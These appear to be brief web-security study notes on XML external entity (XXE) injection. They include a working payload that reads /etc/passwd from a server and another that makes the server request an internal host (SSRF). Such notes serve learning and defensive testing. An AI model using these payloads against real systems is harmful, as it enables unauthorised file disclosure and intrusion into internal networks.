 # Types
## Exploiting XXE to retrieve files
perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem.
* Example: <?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
* exploit: `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>`

## Exploiting XXE to perform SSRF attacks
n the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>



